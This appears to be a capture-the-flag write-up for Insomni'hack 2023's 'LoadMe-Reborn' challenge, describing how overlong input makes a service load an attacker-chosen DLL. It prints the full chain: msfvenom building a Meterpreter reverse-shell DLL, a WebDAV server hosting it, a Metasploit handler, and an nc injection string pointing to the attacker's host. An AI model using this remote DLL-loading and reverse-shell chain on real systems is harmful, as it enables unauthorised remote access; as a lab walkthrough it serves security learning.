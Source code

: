 # Insomni'hack - LoadMe-Reborn   
This repository is a solution for the flag LoadMe-Reborn for 2023's editions of insomni'hack.   
## The start   
The flags begin with a simple instructions, that someone had developped an application to do a recipe with given components. They give us a nc command so we can connect to this app :
(I have forgot the command that they gave us, but it should be like this one)
```
nc 10.1.2.13 1234
```
Then, we have a beautiful cli's app that ask us for ingredients so they can cook, if you try to write some ingredients and hit enter, it'll tell us that the kitchen is closed. But it'll echo back the ingredients that we had typed before closing.
The simple trick here is to type list a ingredients so long that they will be an error. The important line in the error is that he has tried to load a DLL library but it was unable to load it, simply because it doesn'it exists ! It has tried to load a DLL with the end of the string that you had typed, so from here we can execute a DLL library of our choice, even our own !   
So we need to have a DLL that can do a reverse shell so we have acces directly to the server that is running the app. For that I have used msfvenom : 
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=myIPAdress LPORT=4444 -f dll -o msf.DLL
```
And then we need a share that the server can use, the first thing that I had tried is smb share, but unfortunately, it has been blocked via a regex, so we need another technology, the next this I tried was webdav and it worked !
You need to host a webdav server, for that I have used wsgidav, it is a generic and extendable WebDAV server written in Python and based on WSGI. I have used this command, you need to launch it where you have generated your DLL library.
```
wsgidav --host=0.0.0.0 --port=80 --root=./ --auth=anonymous
```
Before loading your library on the server, you need to prepare for the reverse shell with those command :
```
./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost your_ip_address
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run
```
And the you can launch your DLL on the server with this command : 
```
echo '(stringlongenoughtodotheerror)//youripadress@80/msf' | nc 10.1.2.13 1234
```
It'll launch the nc command and the enter the string between the '' after the echo. Now in the shell where you have executed the reverse shell command, you have to the server and get the flag who is in the .txt file !
